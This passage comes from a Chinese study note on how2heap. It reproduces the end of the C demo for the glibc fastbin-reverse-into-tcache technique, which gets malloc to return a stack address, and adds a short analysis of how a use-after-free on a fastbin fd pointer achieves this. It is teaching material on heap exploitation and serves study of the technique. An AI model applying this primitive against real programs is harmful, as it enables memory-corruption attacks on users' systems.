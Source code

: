 ```c
  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  printf(
    "\n"
    "The next allocation triggers the stack to be overwritten. The tcache\n"
    "is empty, but the fastbin isn't, so the next allocation comes from the\n"
    "fastbin. Also, 7 chunks from the fastbin are used to refill the tcache.\n"
    "Those 7 chunks are copied in reverse order into the tcache, so the stack\n"
    "address that we are targeting ends up being the first chunk in the tcache.\n"
    "It contains a pointer to the next chunk in the list, which is why a heap\n"
    "pointer is written to the stack.\n"
    "\n"
    "Earlier we said that the attack will also work if we free fewer than 6\n"
    "extra pointers to the fastbin, but only if the value on the stack is zero.\n"
    "That's because the value on the stack is treated as a next pointer in the\n"
    "linked list and it will trigger a crash if it isn't a valid pointer or null.\n"
    "\n"
    "The contents of our array on the stack now look like this:\n\n"
  );

  malloc(allocsize);

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  char *q = malloc(allocsize);
  printf(
    "\n"
    "Finally, if we malloc one more time then we get the stack address back: %p\n",
    q
  );

  assert(q == (char *)&stack_var[2]);

  return 0;
}
```

**利用分析**：

其实就是利用了stash机制，清空tcache后，malloc时会先将fastbin所有的bin都放入tcache(顺序倒着)，那么我们UAF修改了fastbin[6]的fd，所以申请两次就能拿到目标地址了。



调试的时候发现一个点：在fastbin进入tcache后fd处的值会+0x10？（确实，因为就算不是伪造的，tcache链的next也需要指向下一个bin的**userdata**，所以肯定是都要+0x10的）

reverse into 前：

![image-20240721192943440](My_how2heap\images\image-20240721192943440.png)

